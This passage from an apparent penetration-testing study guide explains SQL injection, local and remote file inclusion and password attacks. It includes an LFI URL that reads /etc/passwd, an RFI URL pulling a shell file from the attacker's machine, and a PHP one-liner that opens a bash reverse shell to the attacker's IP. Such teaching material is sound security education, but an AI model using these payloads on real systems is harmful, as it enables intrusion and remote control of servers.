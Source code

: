 ### Securityfocus.com
This site is kind of a general mixture of CVE and ExDB. It has writeups on vulns and links to exploits. I like it primarily because it may have additional exploits that are not found or easily identified by the others. Specifically I've had luck finding a python version of an exploit that was only in ruby or C. This makes it much easier to run.

---
# Exploitation
## SQL Injection
SQL Injection is the usage of SQL specific commands and special characters in input fields in order to break the current SQL statement and to insert your own desired statement. It is used in many different ways and changes with the underlying DB OS.

A useful cheat sheet for injections can be found here: [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Local File Inclusion
Local File Inclusion or LFI is the calling of a file on the target system in an unexpected manner. It is often done through URL manipulation such as directory traversal.

Example LFI Attack
```
https://192.168.1.100/index.php?page=../../../../../../../etc/passwd
```

## Remote File Inclusion
Remote File Inclusion or RFI is the calling of a remote file, usually from your local system, from the target system. This is often done through URL manipulation.

Example RFI Attack
```
https://192.168.1.100/index.php?page=http://192.168.1.101/shell.php%00 (where 192.168.1.101 is your machine IP)
```

This url calls a php file from the remote server, in this instance my attacking box, and executes the file locally to the target system. The %00 terminates the PHP.

The code inside of the file would look something like this:
```
<?php print shell_exec("/bin/bash -i >& /dev/tcp/192.168.1.101/443 0>&1");?>
```

It assigns a bash shell to a listener and then initiates a call to my local system on port 443. Running a netcat listener on 443 will accept the reverse shell and I will have a shell with the privileges of the user the web server is running as.

## Password Attacks
There are many forms of password attacks, hash cracking, password guessing, hash passing, it is important to understand how authentication systems operate to assist in circumventing or compromising them.
